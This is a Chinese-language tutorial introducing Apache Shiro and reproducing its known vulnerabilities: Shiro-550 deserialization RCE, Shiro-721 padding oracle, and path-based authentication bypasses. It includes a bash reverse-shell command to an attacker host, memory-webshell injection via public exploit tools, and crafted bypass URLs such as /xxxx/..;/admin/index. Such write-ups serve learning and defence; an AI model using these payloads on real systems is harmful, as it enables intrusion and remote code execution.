# Shiro 介绍及漏洞复现

<!-- more -->

## 1. shiro 简介

### 1.1 shiro 是什么

权限管理框架，实现用户认证、用户授权。



**Subject：主体**；代表了当前“用户”，这个用户不一定是一个具体的人，与当前应用交互的任何东西都是 Subject，如网络爬虫，机器人等；即一个抽象概念；所有 Subject 都绑定到 SecurityManager，与 Subject 的所有交互都会委托给 SecurityManager；可以把 Subject 认为是一个门面；SecurityManager 才是实际的执行者；

**SecurityManager：安全管理器**；即所有与安全有关的操作都会与 SecurityManager 交互；且它管理着所有 Subject；可以看出它是 Shiro 的核心，它负责与后边介绍的其他组件进行交互，如果学习过 SpringMVC，你可以把它看成 DispatcherServlet 前端控制器；

**Realm：域**；Shiro 从从 Realm 获取安全数据（如用户、角色、权限），就是说 SecurityManager 要验证用户身份，那么它需要从 Realm 获取相应的用户进行比较以确定用户身份是否合法；也需要从 Realm 得到用户相应的角色/权限进行验证用户是否能进行操作；可以把 Realm 看成 DataSource，即安全数据源。

### 1.2 基本功能点



- Authentication：身份认证 / 登录，验证用户是不是拥有相应的身份；
- Authorization：授权，即权限验证，验证某个已认证的用户是否拥有某个权限；即判断用户是否能做事情
- 常见的如：验证某个用户是否拥有某个角色。或者细粒度的验证某个用户对某个资源是否具有某个权限；
- Session Management：会话管理，即用户登录后就是一次会话，在没有退出之前，它的所有信息都在会话中；会话可以是普通 JavaSE 环境的，也可以是如 Web 环境的；
- Cryptography：加密，保护数据的安全性，如密码加密存储到数据库，而不是明文存储；
- Web Support：Web 支持，可以非常容易的集成到 Web 环境；
- Caching：缓存，比如用户登录后，其用户信息、拥有的角色 / 权限不必每次去查，这样可以提高效率；
- Concurrency：shiro 支持多线程应用的并发验证，即如在一个线程中开启另一个线程，能把权限自动传播过去；
- Testing：提供测试支持；
- Run As：允许一个用户假装为另一个用户（如果他们允许）的身份进行访问；
- Remember Me：记住我，这个是非常常见的功能，即一次登录后，下次再来的话不用登录了

### 1.3 简单 Demo 演示

项目 1：shiroDemo 自定义 realm 实现登录和鉴权

项目 2：SpringBoot 整合 Shiro



## 2. shiro 漏洞举例

### 2.1 shiro-550

**Shiro<=1.2.4** 反序列化漏洞（CVE-2016-4437）

**漏洞原理**

Apache Shiro 框架提供了记住密码的功能（RememberMe），用户登录成功后会生成经过加密并编码的 cookie。Shiro 1.2.4 及之前的版本中，在服务端对 rememberMe 的 cookie 值，先 base64 解码然后 AES 解密（加密密钥硬编码），最后反序列化（未作过滤处理），就导致了反序列化 RCE 漏洞。AES 加密的密钥默认硬编码在代码里（[SHIRO-550](https://issues.apache.org/jira/browse/SHIRO-550)）。

有很多开源的项目内部集成了 shiro 并二次开发，可能会重现低版本 shiro 的默认固定密钥风险。例如开发者在使用 shiro 时通常会找一些教程来帮助快速搭建，针对教程中自定义的密钥未修改就直接 copy 过来的情况也比较常见。[Guns 开源框架](https://github.com/stylefeng/Guns)内部集成了 shiro 并进行二次开发，作者自定义密钥并固定，此时用户若不对密钥进行修改，即使升级 shiro 版本，也依旧存在固定密钥的风险。(相关 issues 地址https://github.com/stylefeng/Guns/issues/48)

**源码分析**

下载代码：[https://github.com/godzeo/shiro_1.2.4_sample.git](https://github.com/godzeo/shiro/_1.2.4/_sample.git)

分析结果：`org/apache/shiro/web/mgt/CookieRememberMeManager.java`继承了`org/apache/shiro/mgt/AbstractRememberMeManager.java`，如下：



先序列化，再 AES 加密，其中加密使用了密钥硬编码。

然后在`org/apache/shiro/web/mgt/CookieRememberMeManager.java`的`rememberSerializedIdentity()`中进行 base64 编码，并通过 response 返回。



解密过程是先 base64 解码—AES 解密—反序列化。所以可以通过构造 cookie 进行反序列化攻击。

针对公开的密钥集合，我们可以在 github 上搜索到并加以利用。后面要用到的工具就收集了这些公开密码进行爆破。

我们如何获知选择的密钥是否与目标匹配呢？当密钥不正确或类型转换异常时，目标 Response 包含`Set-Cookie：rememberMe=deleteMe`字段，而当密钥正确且没有类型转换异常时，返回包不存在`Set-Cookie：rememberMe=deleteMe`字段。

参考：https://mp.weixin.qq.com/s/do88_4Td1CSeKLmFqhGCuQ

https://zeo.cool/2020/09/03/Shiro%20550%20%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%20%E8%AF%A6%E7%BB%86%E5%88%86%E6%9E%90+poc%E7%BC%96%E5%86%99/#%E8%A7%A3%E5%AF%86%E8%BF%87%E7%A8%8B%EF%BC%9A

**漏洞复现**

判断是否存在漏洞，随意输入用户名和密码点击登录并抓包：



在请求包的 Cookie 中为?rememberMe 字段赋任意值，收到返回包的 Set-Cookie 中存在 rememberMe=deleteMe 字段，说明目标有使用 Shiro 框架，可以进一步测试。



漏洞利用工具：https://github.com/SummerSec/ShiroAttack2

先爆破密钥：



爆破利用链及回显：



利用可行的利用链注入蚁剑内存马：



蚁剑连接：



工具 2：https://github.com/zhzyker/shiro-1.2.4-rce

```
python3 shiro-1.2.4_rce.py http://IP:PORT
```



如图中一样手动输入系统类型 linux 或 windows



出现 shell>>以后，攻击机开启 nc 监听。

在 shell>>处填写 bash 反弹 shell 命令`bash -i >& /dev/tcp/攻击机ip/端口 0>&1`



反弹 shell 成功。

### 2.2 shiro-721

Shiro Padding Oracle 远程命令执行漏洞（CVE-2019-12422）

**漏洞背景**

此处想要深入理解，需要学习一下 AES 加密，参考https://townmacro.cn/2022/09/06/%E6%B5%85%E8%AF%95%E6%8E%A2%E7%A9%B6shiro-721/

**漏洞原理**

Shiro 1.2.4 以上版本官方移除了代码中的默认密钥，在后续的版本更新中，修复了之前 shiro-550 的固定 KEY 值，要求开发者自己设置，如果开发者没有设置，则默认动态生成一个 KEY，降低了固定密钥泄漏的风险。然后后续的流程还是没变， **1.2.5 <= Shiro < 1.4.2**版本中仍然存在类似的漏洞，即 shiro-721。

在 cookie 中使用的是 AES-128-CBC 模式进行的加密，在加密流程中使用了 Padding 填充，这里导致用户可以通过 Padding Oracle 攻击来生成攻击代码来构造恶意的 rememberMe 字段，然后触发反序列化攻击，最终导致的任意代码执行。



```
1. 明文经过填充后，分为不同的组block，以组的方式对数据进行处理
2. 初始化向量（IV）首先和第一组明文进行XOR（异或）操作，得到”中间值“
3. 采用密钥对中间值进行块加密，删除第一组加密的密文 （加密过程涉及复杂的变换、移位等）
4. 第一组加密的密文作为第二组的初始向量（IV），参与第二组明文的异或操作
5. 依次执行块加密，最后将每一块的密文拼接成密文
```

由于初始化向量（IV）每次加密都是随机的，所以 IV 经常会被放在密文的前面，解密时先获取前面的 IV，再对后面的密文进行解密。



```
1. 会将密文进行分组（按照加密采用的分组大小），前面的第一组是初始化向量，从第二组开始才是真正的密文
2. 使用加密密钥对密文的第一组进行解密，得到”中间值“
3. 将中间值和初始化向量进行异或，得到该组的明文
4. 前一块密文是后一块密文的IV，通过异或中间值，得到明文
5. 块全部解密完成后，拼接得到明文，密码算法校验明文的格式（填充格式是否正确）
6. 校验通过得到明文，校验失败得到密文
```

**padding oracle attack 破解明文与伪造密文**

https://cloud.tencent.com/developer/article/2130129

### 2.3 Shiro 权限绕过漏洞原理及利用方式

代码：2-shiroSpringboot

#### （1）CVE-2020-1957

**shiro < 1.5.2**

本漏洞起源于 SHIRO-682。在 Spring 中，/resource/xx 与/resource/xx/都会被截成/resource/xx 以访问相应资源；在 shiro 中，/resource/xx 与/resource/xx/被视为两个不同路径。所以在 Spring 集成 shiro 时，只需要在访问路径后添加/就存在绕过权限校验的可能。

```java
 //配置路径拦截规则，注意，要有序
        Map<String, String> map = new LinkedHashMap<>();
        map.put("/doLogin", "anon");
//        map.put("/**", "authc");
        map.put("/hello/**", "authc");
```

1.anon 为匿名拦截器，不需要登录就能访问，一般用于静态资源,或者移动端接口

2.authc 为登录拦截器，需要登录认证才能访问的资源。

org\apache\shiro\web\util\WebUtils.class PathMatchingFilterChainResolver 加断点，访问/hello/1

先 getRequestUri()

```java
    public static String getRequestUri(HttpServletRequest request) {
        String uri = (String)request.getAttribute("javax.servlet.include.request_uri");
        if (uri == null) {
            uri = request.getRequestURI();
        }

        return normalize(decodeAndCleanUriString(request, uri));
    }
```

调用 normalize() 对 decodeAndCleanUriString()处理得到的路径进行标准化处理. 标准化 normalize()的处理包括:

- 替换反斜线
- 替换 // 为 /
- 替换 /./ 为 /
- 替换 /…/ 为 /



最终会在 PathMatchingFilterChainResolver 中的 getChain()方法进行校验，



访问/hello/1 会匹配到/hello/\*，但是/hello/1/就匹配不到了，shiro 会认为这个不需要登录，会放行 。

​ 在使用了 shiro 的项目中，我们请求的 URL(URL1)，经过 shiro 权限检验(URL2)，最后到 springboot 项目找到路由来处理(URL3) 漏洞的出现就在 URL1,URL2 和 URL3 有可能不是同一个 URL，这就导致我们能绕过 shiro 的校验，直接访问后端需要首选的 URL。

（1）配置拦截规则

```
[urls]
/index.html = anon
/user/** = authc
```

（2）构造原始 URL: `/xxxx/..;/admin/index` （URL1）

（3）权限校验时会对传入的 URL 进行标准化处理，以 ;截断后面的请求，所以此时 URL 变为 URL2 /xxxx/.. ， /xxxx/.. 不会匹配到/admin/\*\* ，所以 shiro 权限校验就会通过。

（4）原始请求 `/xxxx/..;/admin/index` 进入到 springboot 中，springboot 对于每一个进入的 request 请求也会有自己的处理方式，Spring 会先获取分号的位置，并检测分号后是否存在/，如果有，将/的位置记录在 slashIndex 变量中，并将分号前的数据与/之后的数据进行拼接，从而让/xxxx/..;/admin/index 变为/xxxx/../admin/index，即为/admin/index。

（5）最后，我们来数理一下整个请求过程：

1. 客户端请求 URL: `/xxxx/..;/admin/index`
2. shrio 内部处理得到校验 URL 为 `/xxxx/..`校验通过
3. springboot 处理 `/xxxx/..;/admin/index` , 最终请求 `/admin/index`, 成功访问了后台请求.

#### （2）CVE-2020-11989

SHIRO-782

由于 shiro 先获取的 url，然后会判断分号是否存在，如果存在就会把后面的删除，进入 shiro 匹配，匹配不上默认放行，之后 Spring web 对路径进行规范化从而访问到了相应的页面。

进入 decodeAndCleanUriString 方法，发现此方法会以分号将传入的 URI 进行截断，并将分号以及分号后面的数据进行清空，返回分号前面的 URI 数据，从而让/a/b;/c 变为/a/b。

```java
    private static String decodeAndCleanUriString(HttpServletRequest request, String uri) {
        uri = decodeRequestString(request, uri);
        int semicolonIndex = uri.indexOf(';');
        return (semicolonIndex != -1 ? uri.substring(0, semicolonIndex) : uri);
    }
```

Spring 拦截器的 decodeAndCleanUriString 方法中，Spring 对于分号处理的方式与 Shiro 不同，Spring 会先获取分号的位置，并检测分号后是否存在/，如果有，将/的位置记录在 slashIndex 变量中，并将分号前的数据与/之后的数据进行拼接，从而让/a/b;/c 变为/a/b/c。返回处理后的 requestURI。

```java
    private String decodeAndCleanUriString(HttpServletRequest request, String uri) {
        uri = this.removeSemicolonContent(uri);
        uri = this.decodeRequestString(request, uri);
        uri = this.getSanitizedPath(uri);
        return uri;
    }
```

所以访问/;/hello/1 结果如下



下面两种都能绕过

```
map.put("/hello/**", "authc");
map.put("/hello/*", "authc");
```

只有这么写的时候，才不存在问题

```
map.put("/**", "authc");
```

（3）CVE-2020-13933

（4）CVE-2022-32532
